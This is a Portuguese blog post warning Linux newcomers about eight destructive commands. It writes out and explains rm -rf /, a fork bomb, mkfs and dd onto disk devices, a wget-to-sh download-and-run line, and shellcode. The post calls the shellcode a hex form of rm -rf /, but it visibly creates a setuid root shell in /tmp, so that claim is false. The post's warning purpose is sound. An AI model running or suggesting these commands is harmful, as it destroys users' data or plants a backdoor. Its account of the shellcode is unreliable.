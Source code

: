 ```yaml
---
title:  Os 8 Comandos da Morte
categories: seguranca
tags: linux shell
image: /assets/img_posts/dark-hole.png
description: Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/dark-hole.png)

Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.

Aprender comandos que você não deve executar pode lhe ajudar a identificar possíveis ameaças e aumentar sua compreensão de como o Linux funciona.

Note que muitos desses comandos só são realmente perigosos se forem executados como Super Usuário (root).

## 1 – Excluir tudo

```sh
rm –rf /
```

O comando `rm -rf /` excluirá todo o sistema, incluindo todos os dispositivos que estejam montados.

### Interpretação:

- `rm`: Remove arquivos
- `rm -r`: Remove diretórios e arquivos recursivamente
- `rm -rf`: Remove diretórios e arquivos recursivamente de maneira forçada
- `/`: Local a ser removido


Algumas distribuições executarão esse comando sem lhe perguntar nada, então tenha atenção com isso!

O comando `rm` também pode ser usado de outras formas perigosas.

Por exemplo: `rm -rf ~` apaga tudo dentro da pasta home, e `rm -rf .*` apaga todos os arquivos ocultos, que podem possuir configurações importantes.

**Lição**: Muita atenção ao usar o `rm`.

## 2 – Excluir tudo (versão hexadecimal)

```sh
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68”
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99”
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7”
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56”
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31”
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69”
“x6ex2fx73x68x00x2dx63x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

Lembre-se desse formato!

Esse código é a versão hexadecimal do `rm -rf /`. Executá-lo também irá destruir todo o sistema.

**Lição**: Nunca execute comandos de aparência estranha que você não saiba para o que serve.

## 3 – Fork Bomb

```sh
:(){ :|: & };:
```

A linha acima é uma função em bash de aparência simples, mas perigosa.

Esta linha curta define uma função que cria novas cópias de si mesmo. O processo replica-se continuamente, cada uma de suas cópias também replicam-se e rapidamente ocupa toda a capacidade de processamento da CPU e o espaço da memória. Isso fará com que o computador trave. Basicamente, é considerado um ataque de negação de serviços.

**Lição**: Funções bash são poderosas, mesmo que sejam muito curtas.

## 4 – Formatar HD

```sh
mkfs.ext4 /dev/sda1
```

O comando `mkfs.ext4 /dev/sda1` é simples de entender:

### Interpretação:

- `mkfs.ext4`: Define a criação de um novo sistema de arquivos ext4.
- `/dev/sda1`: Local onde será criado o novo sistema de arquivos.

Tomados em conjunto, este comando pode ser equivalente a formatação da partição C: no Windows - ele irá limpar os arquivos em sua primeira partição e substituí-los com um novo sistema de arquivos.

Este comando pode vir de outras formas, como `mkfs.ext3 /dev/sdb2` que formata a segunda partição no segundo disco rígido com o sistema de arquivos _ext3_.

**Lição**: Cuidado com a execução de comandos que irão para _/dev/sd*_.


## 5 – Escrever diretamente no HD

```sh
comando > /dev/sda
```

Essa linha de comando funciona de forma semelhante a anterior. Ela executa um comando e envia a saída desse comando para o primeiro disco rígido, escrevendo os dados diretamente na unidade de disco rígido e danifica o sistema de arquivos.

### Interpretação:

- `comando`: Pode ser qualquer comando.
- `>`: Envia a saída do comando para algum local.
- `/dev/sda`: Local para onde o comando é enviado.

**Lição**: Como no exemplo 4, cuidado com a execução de comandos que envolvem dispositivos de disco rígido com saída para _/dev/sd*_.

## 6 – Escrita aleatória no HD

```sh
dd if=/dev/random of=/dev/sda
```

O comando acima também destrói os dados de um disco rígido.

### Interpretação:

- `dd`: Executa a cópia de um local para outro.
- `if=/dev/random`: Usa dispositivos de entrada _/dev_ aleatórios.
- `of=/dev/sda`: Saída para o primeiro disco rígido, substituindo o seu sistema de arquivos com dados aleatórios.

**Lição**: O comando `dd` copia dados de um local para outro, o que pode ser perigoso se for copiando diretamente para um dispositivo.

## 7 – Baixar e executar scripts

```sh
wget http://site.com/arquivo -O - | sh
```

A linha acima faz download de um arquivo na web e o envia para o sh, que executa o conteúdo do script. Isso pode ser perigoso se não souber o que há no script ou se sua fonte não for confiável.

### Interpretação:

- `wget`: Realiza downloads.
- `http://site.com/arquivo`: Local a ser feito o download.
- `|`: Pipe (envia) a saída do comando wget (o conteúdo do arquivo baixado) para outro comando.
- `sh`: Comando que executará o arquivo.

**Lição** Não baixe e execute scripts não confiáveis.

## 8 – Mover diretórios para um buraco negro

```sh
mv ~ /dev/null
```

O _/dev/null_ é outro local especial que se deve ter atenção.

Qualquer coisa movida para _/dev/null_ é destruída. Pense nisso como um buraco negro.

### Interpretação:

- `mv`: Move arquivos ou diretórios.
- `~`: Representa pasta home do usuário logado.
- `/dev/null`: Local para onde a pasta home será movida.

**Lição**: O caractere ~ representa a pasta pessoal do usuário logado e move-la para _/dev/null_ irá destruí-la totalmente.
